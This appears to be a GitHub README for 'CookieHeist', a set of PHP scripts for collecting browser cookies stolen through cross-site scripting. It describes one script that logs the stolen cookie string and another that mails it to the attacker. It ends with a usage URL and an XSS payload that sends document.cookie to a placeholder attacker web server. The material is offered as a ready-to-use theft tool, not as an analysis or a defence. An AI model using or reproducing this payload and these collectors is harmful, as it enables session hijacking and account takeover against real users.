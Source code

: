 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string. Then writes value to log.txt and redirects to Google.com.

2. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

#Usage

Example: http://[Attacker Webserver]/cookiesteal-simple.php?c=document.cookie

XSS Payload Example: <script javascript:text>document.location="http://[Attacker Webserver]?c=" + document.cookie + "&t=Alert"; </script>
